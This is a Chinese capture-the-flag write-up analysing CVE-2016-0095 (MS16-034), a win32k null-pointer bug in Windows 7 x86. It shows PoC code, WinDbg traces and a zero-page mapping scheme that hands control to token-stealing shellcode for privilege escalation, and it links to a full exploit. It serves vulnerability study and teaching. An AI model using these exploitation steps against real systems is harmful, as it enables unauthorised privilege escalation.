








作者：k0shl 转载请注明作者博客：http://whereisk0shl.top
刚刚结束的SSCTF里面出了很多贴近实战的题目，有JAVA沙箱逃逸，有office的栈溢出，都比较有意思，这次的pwn450的题目是一道Windows Kernel Exploitation，漏洞编号是CVE-2016-0095（MS16-034），由四叶草的大牛bee13oy提供了一个能触发BSOD的PoC，要求通过分析漏洞并在Win 7环境下完成利用。

感觉这个过程比较有意思，和师傅们分享一下，这个漏洞相对于之前做过的CVE-2014-4113漏洞来说更为简单，利用上也有点意思，适合做Windows Kernel入门。
本文首先我们简单分析一下PoC，随后我们一起来分析一下这个漏洞的形成原因，最后我们来看一下这个漏洞的利用点在哪里并完成利用，文章最后我将CVE-2016-0095的EoP源码上传到github并提供链接。
另外bee13oy大牛提供的PoC，我在VS2013下编译有一点问题，我稍微调整了一下PoC源码，会一起上传至github。
调试环境按照SSCTF题目要求是Windows 7 x86 sp1. 请师傅们多多指教，谢谢阅读！

首先触发MS17-017的核心函数在Trigger_BSoDPoc中。
HRGN hRgn = (HRGN)CreateRectRgnIndirect(&rect);
HDC hdc = (HDC)CreateCompatibleDC((HDC)0x0);
SelectObject((HDC)hdc, (HGDIOBJ)hBitmap2);
HBRUSH hBrush = (HBRUSH)CreateSolidBrush((COLORREF)0x00edfc13);
FillRgn((HDC)hdc, (HRGN)hRgn, (HBRUSH)hBrush);
这个漏洞和bitmap相关，创建了一个hdc设备句柄，并选入了一个bitmap对象，创建了一个hBrush逻辑刷子，以及一个hRgn矩形对象，最后调用FillRgn触发漏洞。
其中SelectObject选入bitmap对象的hBitmap2，由NtGdiSetBitmapAttributes函数创建，其定义的bitmap结构在demo_CreateBitmapIndirect函数中。
PoC在VS2013编译时存在一些小问题，首先是对NtGdiSetBitmapAttributes的重构定义中使用的W32KAPI，这里编译时报错，增加一个预定义头就可以了。
#ifndef W32KAPI
#define W32KAPI DECLSPEC_ADDRSAFE
#endif
第二个问题在重构NtGdiSetBitmapAttributes时内联汇编会使用NtGdiSetBitmapAttributes的系统调用号，随后调用KiFastSystemCall进入内核态，这里KiFastSystemCall没有提供地址，可以直接在函数内LoadLibrary之后使用GetProcAddress获取KiFastSystemCall地址。
HMODULE _H_NTDLL = NULL;
PVOID addr_kifastsystemcall = NULL;
_H_NTDLL = LoadLibrary(TEXT("ntdll.dll"));
addr_kifastsystemcall = (PVOID)GetProcAddress(_H_NTDLL, "KiFastSystemCall");
__asm
{
push argv1;
push argv0;
push 0x00;
mov eax, eSyscall_NtGdiSetBitmapAttributes;
mov edx, addr_kifastsystemcall;
call edx;
add esp, 0x0c;
}
这样编译就没问题啦，PoC我们简单分析了一下，下面我们通过Windbg的PIPE进行双机联调，来分析一下这个漏洞的形成原因。
这是一个由于_SURFOBJ->hDEV未初始化直接引用导致的无效地址访问引发的漏洞，首先运行PoC，Windbg会捕获到异常中断，来看一下中断位置。
kd> r
eax=00000000 ebx=980b0af8 ecx=00000001 edx=00000000 esi=00000000 edi=fe9950d8
eip=838b0560 esp=980b0928 ebp=980b09a0 iopl=0 nv up ei pl zr na pe nc
cs=0008 ss=0010 ds=0023 es=0023 fs=0030 gs=0000 efl=00010246
win32k!bGetRealizedBrush+0x38:
838b0560 f6402401 test byte ptr [eax+24h],1 ds:0023:00000024=??
中断位置eax的值是0x0，而eax+24是一个无效地址空间，我们需要跟踪这个eax寄存器的值由什么地方得到，首先分析win32k!bGetRealizedBrush函数。
int __stdcall bGetRealizedBrush(struct BRUSH *a1, struct EBRUSHOBJ *a2, int (__stdcall *a3)(struct _BRUSHOBJ *, struct _SURFOBJ *, struct _SURFOBJ *, struct _SURFOBJ *, struct _XLATEOBJ *, unsigned __int32))
{
函数传入了3个变量，由外层函数分析，可以发现其中a3是EngRealizeBrush函数，是一个写死的值（这点后 面会提到），a1是一个BRUSH结构体，a2是一个EBRUSHOBJ结构体，而漏洞触发位置的eax就由EBRUSHOBJ结构体得来，跟踪分析一下这个过程。
kd> p
win32k!bGetRealizedBrush+0x1c://ebx由第二个参数得来
969e0544 8b5d0c mov ebx,dword ptr [ebp+0Ch]
……
kd> p
win32k!bGetRealizedBrush+0x25://第二个参数+34h的位置的值交给eax
969e054d 8b4334 mov eax,dword ptr [ebx+34h]
……
kd> p
win32k!bGetRealizedBrush+0x32://eax+1c的值，交给eax，这个值为0
969e055a 8b401c mov eax,dword ptr [eax+1Ch]
kd> p
win32k!bGetRealizedBrush+0x35:
969e055d 89450c mov dword ptr [ebp+0Ch],eax
kd> p
win32k!bGetRealizedBrush+0x38://eax为0，引发无效内存访问
969e0560 f6402401 test byte ptr [eax+24h],1
经过上面的分析，我们需要知道，EBRUSHOBJ+34h位置存放着什么样的值，直接来看EBRUSHOBJ结构体的内容。
kd> dd 8effcaf8
8effcaf8 ffffffff 00000000 00000000 00edfc13
8effcb08 00edfc13 00000000 00000006 00000004
8effcb18 00000000 00ffffff fe96b7c4 00000000
8effcb28 00000000 fd2842e8 ffbff968 ffbffe68
这里0x8effcaf8+34h位置存放的值是fd2842e8，而fd2842e8+1c存放的是0x0，就是这里传递给eax，导致了eax是0x0，从而引发了无效地址访问。
kd> dd fd2842e8
fd2842e8 108501ef 00000001 80000000 874635f8
fd2842f8 00000000 108501ef 00000000 00000000
fd284308 00000008 00000008 00000020 fd28443c
fd284318 fd28443c 00000004 00001292 00000001
因此我们需要知道fd2842e8＋1c是一个什么对象的值，但通过dt方法没法获得_EBRUSHOBJ的结构，这里对象不明朗没关系，我们可以通过对外层函数的跟踪，来看一下+1c位置存放的是什么样的结构，通过kb堆栈回溯（这里由于多次重启堆栈地址发生变化，不影响调试）
kd> kb
# ChildEBP RetAddr Args to Child
00 980b09a0 838b34af 00000000 00000000 838ad5a0 win32k!bGetRealizedBrush+0x38
01 980b09b8 83929b5e 980b0af8 00000001 980b0a7c win32k!pvGetEngRbrush+0x1f
02 980b0a1c 839ab6e8 fe975218 00000000 00000000 win32k!EngBitBlt+0x337
03 980b0a54 839abb9d fe975218 980b0a7c 980b0af8 win32k!EngPaint+0x51
04 980b0c20 83e941ea 00000000 ffbff968 1910076b win32k!NtGdiFillRgn+0x339
我们可以看到最外层函数调用了win32k!NtGdiFillRgn函数，直接跟踪外层函数调用，在NtGdiFillRgn函数中。
EngPaint(
(struct _SURFOBJ *)(v5 + 16),
(int)&v13,
(struct _BRUSHOBJ *)&v18,
(struct _POINTL *)(v42 + 1592),
v10); // 函数调用会进这里
接下来我们重启系统，重新跟踪这个过程，对象地址值发生变化，但不影响调试，传入的第一个参数是SURFOBJ对象，来看一下这个对象的内容
kd> p
win32k!NtGdiFillRgn+0x334:
96adbb98 e8fafaffff call win32k!EngPaint (96adb697)
kd> dd esp
903fca5c ffb58778 903fca7c 903fcaf8 ffaabd60
第一个参数SURFOBJ的值是ffb58778，继续往后跟踪
kd> p
win32k!EngPaint+0x45:
96adb6dc ff7508 push dword ptr [ebp+8]
kd> p
win32k!EngPaint+0x48:
96adb6df 8bc8 mov ecx,eax
kd> p
win32k!EngPaint+0x4a:
96adb6e1 e868e4f8ff call win32k!SURFACE::pfnBitBlt (96a69b4e)
kd> dd 903fcaf8//这个值是BRUSH结构体
903fcaf8 ffffffff 00000000 00000000 00edfc13
903fcb08 00edfc13 00000000 00000006 00000004
903fcb18 00000000 00ffffff ffaab7c4 00000000
903fcb28 00000000 ffb58768 ffbff968 ffbffe68//偏移0x34存放的是0xffb58768
903fcb38 ffbbd540 00000006 fe57bc38 00000014
903fcb48 000000d3 00000001 ffffffff 83f77f01
903fcb58 83ec0892 903fcb7c 903fcbb0 00000000
903fcb68 903fcc10 83e17924 00000000 00000000
kd> dd ffb58768//看一下0xffb58768的值
ffb58768 068501b7 00000001 80000000 8754b030
ffb58778 00000000 068501b7 00000000 00000000//这个值是0x0
ffb58788 00000008 00000008 00000020 ffb588bc
我们发现在EBRUSHOBJ+34h位置存放的值，再+10h存放的正是之前的SURFOBJ，可以看到，0xffb58768和之前SURFOBJ对象的值0xffb58778正好相差10h，也就是说，之前ffb58768+1ch位置存放的就是SURFOBJ+0xc的值，可以看到而这个值来看一下SURFOBJ的结构
typedef struct _SURFOBJ {
DHSURF dhsurf;
HSURF hsurf;
DHPDEV dhpdev;
HDEV hdev;
SIZEL sizlBitmap;
ULONG cjBits;
PVOID pvBits;
PVOID pvScan0;
LONG lDelta;
ULONG iUniq;
ULONG iBitmapFormat;
USHORT iType;
USHORT fjBitmap;
} SURFOBJ;
前面DHSURF、HSURF、DHPDEV类型长度都是4字节，看到偏移+ch位置存放的是hdev对象，正是在PoC中未对hdev对象进行初始化直接引用，导致了漏洞的发生。我们也可以来看一下_EBRUSHOBJ的一些结构概况。

红框框应该是BRUSHOBJ，其中前4个字节时iSolidColor，中间4个字节是pvRbrush，后4个字节是flColorType，绿框框应该是在PoC中定义的hBrush的COLORREF，粉框框则是SURFOBJ-10h的一个结构，问题也出现在这里。
知道了这个漏洞形成原因，我们来考虑利用过程，首先，我们回到触发漏洞的位置，这里引用了eax＋24，就是0x0＋24，在Win7下限制较少，不像Win8和Win10，在_EPROCESS结构中有VdmAllowed之类的来限制NtAllocateVirtualMemory申请零页内存，如果我们通过NtAllocateVirtualMemory申请零页内存，那么对应位置就不是一个无效地址了。
我们通过伪代码来看一下这一小部分的逻辑。
P = 0;
v69 = 0;
a2 = *(struct EBRUSHOBJ **)(v6 + 28);//key！！a2被赋值为0了！
v45 = (*((_BYTE *)a2 + 36) & 1) == 0;//引发BSOD位置
v72 = 0;
v75 = 0;
可以看到，在之前a2会由于hdev未初始化，而直接引用，被赋值为0x0，那么也就是说，在函数后面所有跟a2有关的操作部分，比如a2+0xn的操作，都是在零页内存位置做操作，比如后面的a2+36就是引发bsod的位置，将0x0+24h了。
那么也就是说，如果我们用NtAllocateVirtualMemory分配了零页内存，那么零页内存位置的值我们都是可控的，也就是说在win32k!bGetRealizedBrush中，所有跟a2相关的位置我们都是可控的。
换个角度讲，我们可以在零页位置构造一个fake struct来控制一些可控的位置。接下来，为了利用，我们需要在win32k!bGetRealizedBrush中，找到一些可以利用的点。
找到了两个点，第一个点比较好找，第二个点我不够细心没找到，还是pxx提醒了我，感谢pxx师傅！
第一个点在

第二个点在

其中第一个点不好用，就是之前我说到的这是一个常数，这里引用的是EngRealizeBrush函数，是在传递参数时一个定值，这个值不能被修改。

因此我们能利用的位置应该就是第二个点，但其实，从我们漏洞触发位置，到漏洞利用位置有几处if语句判断，第一处。
.text:BF840799 ; 119: v23 = *((_WORD *)v20 + 712);
.text:BF840799
.text:BF840799 loc_BF840799: ; CODE XREF: bGetRealizedBrush(BRUSH *,EBRUSHOBJ *,int (*)(_BRUSHOBJ *,_SURFOBJ *,_SURFOBJ *,_SURFOBJ *,_XLATEOBJ *,ulong))+266j
.text:BF840799 movzx edx, word ptr [eax+590h] ; check 0x590
.text:BF8407A0 ; 120: if ( !v23 )
.text:BF8407A0 cmp dx, si
.text:BF8407A3 ; 121: goto LABEL_23;
.text:BF8407A3 jz loc_BF8406F7
这时候v20的值是a2，而a2的值来自于 a2 = *(struct EBRUSHOBJ **)(v6 + 28);，之前已经分析过，由于未初始化，这个值为0，那么第一处在v23的if语句跳转中，需要置0+0x590位置的值为不为0的数。
接下来第二处跳转。
.text:BF8407A3 ; 120: if ( !v23 )
.text:BF8407A3 jz loc_BF8406F7
.text:BF8407A9 ; 122: v24 = (struct EBRUSHOBJ *)((char *)v20 + 1426);
.text:BF8407A9 add eax, 592h ; Check 0x592
.text:BF8407AE ; 123: if ( !*(_WORD *)v24 )
.text:BF8407AE cmp [eax], si
.text:BF8407B1 ; 124: goto LABEL_23;
.text:BF8407B1 jz loc_BF8406F7
这个地方又要一个if语句跳转，这个地方需要置0x592位置的值为不为0的数。
最后一处，也就是call edi之前的位置
.text:BF8407F0 mov edi, [eax+748h]//edi赋值为跳板值
.text:BF8407F6 setz cl
.text:BF8407F9 inc ecx
.text:BF8407FA mov [ebp+var_14], ecx
.text:BF8407FD ; 134: if ( v26 )
.text:BF8407FD cmp edi, esi//这里仍旧是和0比较
.text:BF8407FF jz short loc_BF840823
这里检查的是0x748的位置，这个地方需要edi和esi做比较，edi不为0，这里赋值为替换token的shellcode的值就是不为0的值了，直接可以跳转。
只要绕过了这3处，就可以到达call edi了，而call edi，又来自eax＋748，这个位置我们可控，这样就能到shellcode位置了，所以，我们需要在零页分配一个0x1000的内存（只要大于748，随便定义）。
随后布置这3个值，之后我们可以达到零页可控位置。

接下来，我们只需要在源码中使用steal token shellcode，然后在内核态执行用户态shellcode，完成token替换，这样我们通过如下代码部署零页内存。
void* bypass_one = (void *)0x590;
*(LPBYTE)bypass_one = 0x1;
void* bypass_two = (void *)0x592;
*(LPBYTE)bypass_two = 0x1;
void* jump_addr = (void *)0x748;
*(LPDWORD)jump_addr = (DWORD)TokenStealingShellcodeWin7;
由于Win7下没有SMEP，因此我们也不需要使用ROP来修改CR4寄存器的值，这样，我们在RING0下执行RING3 shellcode完成提权。

最后，我提供一个我的Exploit的下载地址： https://github.com/k0keoyo/SSCTF-pwn450-ms16-034-writeup
请师傅们多多指教，谢谢！Have fun and PWN!